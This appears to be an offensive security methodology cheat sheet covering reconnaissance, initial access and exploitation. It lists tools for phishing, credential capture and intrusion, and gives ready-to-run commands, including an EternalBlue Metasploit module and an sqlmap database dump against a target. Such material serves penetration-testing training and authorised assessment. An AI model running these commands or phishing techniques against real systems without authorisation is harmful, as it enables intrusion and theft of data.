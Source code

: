 # 🔎 Step 1: Reconnaissance & Weaponization
✅ Objective: Passive & Active info gathering on target.

## Tools & Techniques:

1. Passive Recon:
* ```theHarvester, Maltego, SpiderFoot, Shodan, Google Dorks```
* Find: Emails, subdomains, IPs, domains, breach data

2. Active Recon:
* ```Amass, Nmap, WhatWeb, Dirsearch```
* Find: Ports, services, versions, tech stack

```
theHarvester -d example.com -b all
amass enum -passive -d example.com
nmap -sC -sV -p- -T4 example.com
```

# 🚪 Step 2: Initial Access
✅ Objective: Gain entry via weakest link.

1. Techniques:
* Phishing / Spear Phishing (Social Engineering)
* Malicious Office Docs (macros, DDE)
* Credential stuffing / brute force
* Exploiting public vulnerabilities

**Tools:**
Gophish, Evilginx, KingPhisher
Metasploit, MSFVenom, Nishang
CVE Exploits (CVE-2024-*)

```
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOST target_ip
run
```

# 🧨 Step 3: Exploitation (Web, Infra, AD)
✅ Objective: Exploit known/unknown vulnerabilities.

1. Web Exploits:
* ```Burp Suite, SQLMap, XSStrike, Nuclei```

```
sqlmap -u "http://target.com/page.php?id=1" --dbs
```
2. Infrastructure:
* ```Metasploit, Impacket, CrackMapExec, Evil-WinRM```
